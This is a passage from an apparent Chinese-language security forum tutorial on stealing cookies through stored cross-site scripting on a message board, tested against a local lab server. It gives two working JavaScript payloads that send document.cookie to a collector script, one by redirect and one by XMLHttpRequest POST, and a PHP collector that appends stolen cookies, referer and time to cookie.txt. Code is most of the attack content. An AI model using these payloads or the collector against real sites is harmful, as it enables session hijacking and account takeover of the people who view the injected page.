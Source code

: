 实践：  
现在自己的web服务器里写一个getcookie.php的脚本  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ed3c8db284eebdcc75717dd51c3c7e3233a2df75.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ed3c8db284eebdcc75717dd51c3c7e3233a2df75.png)  
随后到一个存在xss注入的留言板中提交

```html
<script>document.location="http://127.0.0.1/xss_test/getcookie.php?cookie="+document.cookie;</script>
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-27f9bb3a8f84f01f00ea92a4f39650e9b03ea9e1.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-27f9bb3a8f84f01f00ea92a4f39650e9b03ea9e1.png)  
登录后台进行查看留言信息  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-1ee5174324cf14b5464adebcc5a9e2192dc1a88c.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-1ee5174324cf14b5464adebcc5a9e2192dc1a88c.png)  
这时就可以去查看cookie.txt文件了  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-b05b8198d301d359ad6f0bbf9ff0a0c731773c78.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-b05b8198d301d359ad6f0bbf9ff0a0c731773c78.png)  
获取的cookie值  
这时数据库也有了数据  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-1edae200865f7f6fccf604f679b78f87973b4802.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-1edae200865f7f6fccf604f679b78f87973b4802.png)

**方法二：**  
Javascript脚本：

```html
<script>
var url="http://127.0.0.1/xss_test/postcookie.php";
var data="cookie="+document.cookie;
var nxhr= new XMLHttpRequest();
nxhr.open("POST",url);
nxhr.setRequestHeader("content-type","application/x-www-form-urlencoded");
nxhr.send(data);
</script>
```

PHP脚本：

```html
<?php
date_default_timezone_set("Asia/shanghai");
$cookie = $_POST["cookie"];
$time = date("Y-m-d H:i");
echo $time;
$refer = $_SERVER['HTTP_REFERER'];
$content = $time."::"."$refer"."::".$cookie."\r\n";
file_put_contents("cookie.txt", $content, FILE_APPEND);
?>
```
